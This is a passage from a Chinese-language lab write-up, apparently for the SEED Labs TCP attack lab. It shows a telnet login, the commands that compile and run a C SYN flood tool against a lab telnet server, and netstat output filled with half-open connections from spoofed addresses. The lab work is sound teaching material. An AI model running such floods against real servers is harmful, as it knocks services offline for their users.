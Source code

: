 我们 telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
791656960e97 login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 29 06:36:20 UTC 2022 from user1-10.9.0.6.net-10.9.0.0 on pts/2
```

只稍微等了一下下，就连接上了。而我们之后再次连接，都是瞬间连接上。

第一次是因为，python 程序跑得不够快，其它用户总有机会抢过它。而之后能立即连接是因为，受害者主机记住了原来的连接。

### Task 1.2: Launch the Attack Using C

我们首先清空一下：

```shell
victim-10.9.0.5$ ip tcp_metrics flush
```

在宿主机编译：

```shell
gcc -o synflood synflood.c
chmod a+x synflood
```

然后运行：

```shell
attacker-10.9.0.1$ synflood 10.9.0.5 23
```

查看当前 tcp 连接：

```shell
victim-10.9.0.5$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:41019        0.0.0.0:*               LISTEN     
tcp        0      0 10.9.0.5:23             111.55.219.82:27483     SYN_RECV   
tcp        0      0 10.9.0.5:23             249.195.34.103:34881    SYN_RECV   
tcp        0      0 10.9.0.5:23             148.11.56.119:17200     SYN_RECV   
......
victim-10.9.0.5$ netstat -tna | grep SYN_RECV | wc -l
97
victim-10.9.0.5$ ss -n state syn-recv sport = :23 | wc -l
98
```
